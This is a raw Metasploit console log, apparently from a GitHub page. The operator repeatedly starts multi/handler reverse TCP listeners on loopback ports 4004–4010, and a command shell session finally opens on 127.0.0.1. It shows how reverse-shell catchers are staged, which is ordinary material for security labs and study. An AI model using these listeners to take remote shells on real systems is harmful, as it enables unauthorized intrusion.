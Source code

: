 ```
[*] Exploit running as background job 4.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4004 
set LPORT 4005
LPORT => 4005
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4005 
set LPORT 4006
LPORT => 4006
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 6.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4006 
set LPORT 4007
LPORT => 4007
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 7.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4007 
set LPORT 4008
LPORT => 4008
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 8.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4008 
set LPORT 4009
LPORT => 4009
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 9.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4009 
set LPORT 4010
LPORT => 4010
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 10.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4010 
[*] Command shell session 1 opened (127.0.0.1:4008 -> 127.0.0.1:46506) at 2023-03-06 12:23:01 -0500
jobs

```